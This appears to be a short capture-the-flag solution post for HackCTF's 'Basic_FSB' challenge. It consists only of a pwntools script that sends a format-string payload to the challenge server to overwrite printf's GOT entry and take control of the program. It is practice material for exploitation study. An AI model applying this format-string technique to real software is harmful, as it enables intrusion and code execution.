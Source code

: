 ```yaml
---
title: "[HackCtf] Basic_FSB"
date: 2020-07-03
ctf: HackCTF
tag: [pwnable]
layout: post
---
```

{% highlight python %}
from pwn import *

context.log_level="debug"

p = remote("ctf.j0n9hyun.xyz", 3002)
printf_got=0x0804a00c

p.sendline(p32(printf_got+2)+p32(printf_got)+"%2044p%2$hn%32176p%3$hn")
p.interactive()
{% endhighlight %}
